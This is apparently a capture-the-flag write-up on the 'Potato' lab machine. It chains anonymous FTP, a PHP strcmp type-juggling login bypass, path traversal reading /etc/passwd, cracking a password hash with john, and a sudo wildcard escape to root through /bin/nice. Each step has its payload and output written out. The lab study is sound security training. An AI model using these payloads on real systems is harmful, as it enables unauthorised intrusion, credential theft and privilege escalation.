






## Potato: Writeup

Nmap reveals three ports open:

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef240eabd2b316b44b2e27c05f48798b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDamdAqH2ZyWoYj0tstPK0vbVKI+9OCgtkGDoynffxqV2kE4ceZn77FBuMGFKLU50Uv5RMUTFTX4hm1ijh77KMGG1CmAk2YWvEDhxbCBPCohp+xXMBXHBYoMbEVl/loKL2UW6USnKorOgwxUdoMAwDxIrohGHQ5WNUADRaqt1eHuHxuJ8Bgi8yzqP/26ePQTLCfwAZMq+SYPJedZBmfJJ3Brhb/CGgzgRU8BpJGI8IfBL5791JTn2niEgoMAZ1vdfnSx0m49uk8npd0h5hPQ+ucyMh+Q35lJ1zDq94E24mkgawDhEgmLtb23JDNdY4rv/7mAAHYA5AsRSDDFgmbXEVcC7N1c3cyrwVH/w+zF5SKOqQ8hOF7LRCqv0YQZ05wyiBu2OzbeAvhhiKJteICMuitQAuF6zU/dwjX7oEAxbZ2GsQ66kU3/JnL4clTDATbT01REKJzH9nHpO5sZdebfLJdVfx38qDrlS+risx1QngpnRvWTmJ7XBXt8UrfXGenR3U=
|   256 f2d8353f4959858507e6a20e657a8c4b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNoh1z4mRbfROqXjtv9CG7ZYGiwN29OQQCVXMLce4ejLzy+0Bvo7tYSb5PKVqgO5jd1JaB3LLGWreXo6ZY3Z8T8=
|   256 0b2389c3c026d5645e93b7baf5147f3e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDXv++bn0YEgaoSEmMm3RzCzm6pyUJJSsSW9FMBqvZQ3
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     syn-ack ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web service requires a login and I don't have creds yet. Based on the file path, I assume admin is a user:



Check out ftp. I can login anonymously and get two files here:

```bash
$ ftp 192.168.166.101 -p 2112
Connected to 192.168.166.101.
220 ProFTPD Server (Debian) [::ffff:192.168.166.101]
Name (192.168.166.101:lemmy): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230-Welcome, archive user anonymous@192.168.45.5 !
230-
230-The local time is: Sun Mar 12 18:11:56 2023
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32694|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||42226|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901      850.12 KiB/s
226 Transfer complete
901 bytes received in 00:00 (23.06 KiB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||39980|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54      402.55 KiB/s
226 Transfer complete
```

Check out `index.php.bak`:

```php
<html>
<head></head>
<body>

<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>


  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>
```

The password, `potato`, doesn't work. But that isn't necessary to satisfy the if-statement. The string comparison is interesting here:

```php
if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
```

This is vulnerable to a type of attack called *PHP type juggling*, which has to do with how PHP treats `==` versus `===`. More on this [here](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)

From the above slides:
> PHP translates POST variables like this to an empty array which causes strcmp() to barf:
> strcmp(array(), "thePassword") -> NULL

and

> NULL == 0

This means, if I pass the application an array which is compared to nothing (NULL), it will evaluate to true.

I intercept the POST request and make the change from this:
`username=admin&password=password`

To

`username=admin&password[]=`



I forward the request can now login.

Examining the Admin area, there is some additional functionality to the website, like listing users, conducting a ping request (which doesn't do much) and cating some of the log files here.





This is what the log file request looks like when I intercept it:

```
POST /admin/dashboard.php?page=log HTTP/1.1
Host: 192.168.166.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://192.168.166.101
Connection: close
Referer: http://192.168.166.101/admin/dashboard.php?page=log
Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh
Upgrade-Insecure-Requests: 1

file=log_03.txt
```

If I change the file to something else, I can test for LFI:

```
file=../../../../../../etc/passwd
```

I get a result:

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
florianges:x:1000:1000:florianges:/home/florianges:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
proftpd:x:112:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:113:65534::/srv/ftp:/usr/sbin/nologin
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash
```



webadmin's password hash is in the file. Let's crack it with john:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt webmin.hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dragon           (?)
1g 0:00:00:00 DONE (2023-03-12 14:36) 50.00g/s 9600p/s 9600c/s 9600C/s 123456..november
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

ssh as webadmin and collect `local.txt`:

```bash
$ ssh webadmin@192.168.166.101
webadmin@192.168.166.101's password:
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 12 Mar 2023 06:36:51 PM UTC

  System load:  0.16               Processes:               151
  Usage of /:   12.4% of 31.37GB   Users logged in:         0
  Memory usage: 29%                IPv4 address for ens192: 192.168.166.101
  Swap usage:   0%


118 updates can be installed immediately.
33 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

webadmin@serv:~$ whoami
webadmin
webadmin@serv:~$ id
uid=1001(webadmin) gid=1001(webadmin) groups=1001(webadmin)
webadmin@serv:~$ hostname
serv
webadmin@serv:~$ hostname -I
192.168.166.101
webadmin@serv:~$ cat local.txt
2567106fe3c428a8c9fdb7c6840ac4e2
```

Check `sudo` privileges:

```bash
webadmin@serv:~$ sudo -l
[sudo] password for webadmin:
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

There is a GTFOBins [entry](https://gtfobins.github.io/gtfobins/nice/) on this binary. 

The asterisk in the sudoers entry means that I can add whatever to the end of this. Much like the LFI earlier, I am no longer limited to the binaries that are in the notes directory. I can go up and use `bash` to become root:

```bash
webadmin@serv:/tmp$ sudo /bin/nice /notes/../../bin/bash -p
root@serv:/tmp# whoami
root
root@serv:/tmp# cd /root
root@serv:~# cat proof.txt
1ffe8c3286254de94e558bca330d8b22
root@serv:~# hostname -I
192.168.166.101
```


